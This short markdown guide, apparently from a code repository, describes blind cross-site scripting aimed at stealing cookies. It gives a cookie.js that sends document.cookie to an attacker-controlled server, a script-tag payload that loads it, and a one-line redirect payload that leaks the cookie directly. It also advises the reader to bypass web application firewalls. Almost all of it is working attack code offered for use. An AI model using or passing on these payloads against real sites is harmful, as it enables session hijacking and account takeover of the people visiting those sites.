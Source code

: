 # Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js

```var request = new XMLHttpRequest();<br/>
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);<br/>
request.send()``` <br/>

### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
<script>document.location='http://attacker-ip/?c='+document.cookie</script>
